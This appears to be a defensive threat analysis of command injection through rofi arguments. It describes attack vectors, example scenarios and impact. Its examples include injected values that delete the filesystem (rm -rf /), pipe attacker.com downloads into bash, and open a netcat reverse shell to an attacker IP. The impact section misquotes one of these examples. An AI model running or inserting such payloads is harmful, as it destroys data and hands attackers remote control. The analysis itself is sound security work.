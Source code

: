 ## Deep Dive Threat Analysis: Command Injection via Rofi Arguments

This analysis provides a comprehensive breakdown of the "Command Injection via Rofi Arguments" threat, focusing on its implications and providing actionable recommendations for the development team.

**1. Threat Overview:**

This threat leverages the inherent functionality of `rofi` to execute commands. While `rofi` itself is a powerful and legitimate tool, its design allows for user-provided input to be directly incorporated into the command-line arguments it receives. If the application constructing these arguments doesn't properly sanitize or validate user input, an attacker can inject malicious commands that will be executed with the privileges of the application running `rofi`.

**2. Attack Vectors and Scenarios:**

* **Direct User Input:** The most obvious vector is when the application directly uses user-provided input (e.g., from a text field, command-line argument to the application, or configuration file) to build the `rofi` command. For example, if the application allows users to define custom actions with associated commands.
* **Indirect Input via Data Sources:** Input can also originate from less obvious sources, such as:
    * **Database Records:**  If the application fetches data from a database and uses it to construct `rofi` commands, a compromised database or a vulnerability allowing data manipulation could lead to injected commands.
    * **API Responses:** If the application integrates with external APIs and uses the returned data to build `rofi` commands, a compromised API or manipulated response could introduce malicious commands.
    * **Configuration Files:** If configuration files are parsed and used to generate `rofi` commands, an attacker gaining access to these files could inject malicious payloads.
    * **Environment Variables:** While less likely, if environment variables are used in constructing `rofi` commands, these could be manipulated in certain scenarios.
* **Logic Flaws in Command Construction:** Even without direct user input, flaws in the application's logic for constructing the `rofi` command can introduce vulnerabilities. For example, improper string concatenation or lack of context-aware escaping.

**Example Scenarios:**

* **Custom Action Definition:** An application allows users to define custom actions in `rofi`. A malicious user defines an action with the command: `"; rm -rf /"`
* **File Opening with Custom Editor:** An application uses `rofi` to select a file and open it with a user-specified editor. A malicious user provides the editor path: `/usr/bin/vi ; curl attacker.com/steal_secrets | bash`
* **Search Functionality:** An application uses `rofi` to search through a list of items. The search term is directly incorporated into the `rofi` command. A malicious user enters a search term like: `"; nc -e /bin/bash attacker_ip 4444"`

**3. Detailed Impact Analysis:**

The impact of successful command injection is severe and can have far-reaching consequences:

* **Full System Compromise:** The attacker gains the ability to execute arbitrary commands with the privileges of the application running `rofi`. This could allow them to install backdoors, create new users with administrative privileges, and gain complete control over the server.
* **Data Breaches and Exfiltration:** Attackers can access and exfiltrate sensitive data stored on the server, including databases, configuration files, and user data. The example provided (`curl attacker.com/steal_data | bash`) directly illustrates this.
* **Data Integrity Compromise:** Attackers can modify or delete critical data, leading to business disruption and potential financial losses.
* **Denial of Service (DoS):** Attackers can execute commands that consume excessive resources, causing the application or even the entire server to become unavailable.
* **Lateral Movement:** If the compromised server has access to other systems within the network, the attacker can use it as a stepping stone to compromise those systems as well.
* **Reputation Damage:** A successful attack can severely damage the reputation of the application and the organization behind it, leading to loss of trust and customers.
